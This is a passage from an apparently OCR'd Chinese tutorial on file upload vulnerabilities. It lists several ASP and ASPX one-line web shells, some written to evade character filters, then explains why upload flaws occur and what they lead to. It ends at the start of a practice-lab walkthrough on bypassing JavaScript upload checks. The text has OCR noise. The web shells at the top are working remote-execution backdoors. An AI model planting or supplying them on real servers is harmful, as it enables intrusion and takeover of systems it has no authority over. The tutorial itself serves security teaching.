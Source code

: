     ##ASP
    <%eval(Request.Item["r00ts"],”unsafe”);%>
    
    <%IfRequest(“1″)<>”"ThenExecuteGlobal(Request(“1″))%> 
    
    <%execute(request(“1″))%> 
    
    <scriptrunat=server>execute request(“1″)</script> 不用'<,>‘的asp一句话 
    
        

aspx马

    ##aspx
    <scriptrunat=”server”>WebAdmin2Y.x.y aaaaa =newWebAdmin2Y.x.y (“add6bb58e139be10″);</script> 
    
    <script language="C#"runat="server">WebAdmin2Y.x.y a=new WebAdmin2Y.x.y("add6bb58e139be10")</script> 
    
    <%eval request(chr(35))%>  不用双引号的一句话。
    
        

## 产生文件上传漏洞的原因

原因：

对于上传文件的后缀名（扩展名）没有做较为严格的限制-
对于上传文件的MIMETYPE(用于描述文件的类型的一种表述方法) 没有做检查-
权限上没有对于上传的文件目录设置不可执行权限，（尤其是对于shebang类型的文件）-
web server对于上传文件或者指定目录的行为没有做限制

原理：-
在 WEB 中进行文件上传的原理是通过将表单设为 multipart/form-data，同时加入文件域，而后通过 HTTP 协议将文件内容发送到服务器，服务器端读取这个分段 (multipart) 的数据信息，并将其中的文件内容提取出来并保存的。通常，在进行文件保存的时候，服务器端会读取文件的原始文件名，并从这个原始文件名中得出文件的扩展名，而后随机为文件起一个文件名 ( 为了防止重复 )，并且加上原始文件的扩展名来保存到服务器上

## 文件上传后导致的常见安全问题一般有:

上传文件是Web脚本语言，服务器的Web容器解释并执行了用户上传的脚本,导致代-
码执行;

上传文件是Flash的策略文件crossdomain.xml,黑客用以控制Flash在该域下的行为(其-
他通过类似方式控制策略文件的情况类似);

上传文件是病毒、木马文件，黑客用以诱骗用户或者管理员下载执行:

上传文件是钓鱼图片或为包含了脚本的图片，在某些版本的浏览器中会被作为脚本执-
行，被用于钓鱼和欺诈。

除此之外，还有一些不常见的利用方法，比如将上传文件作为一个入口,溢出服务器的后台处理程序，如图片解析模块;或者上传-一个合法的文本文件， 其内容包含了PHP脚本，再通过“本地文件包含漏洞(Local File Include)"执行此脚本;等等。此类问题不在此细述。

## 第一关 JS绕过

开启代理抓包，发现没有产生流量就进行验证了，说明是前端JS验证-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201220104138123.png)-
将相应的js文件删除即可-
源码：
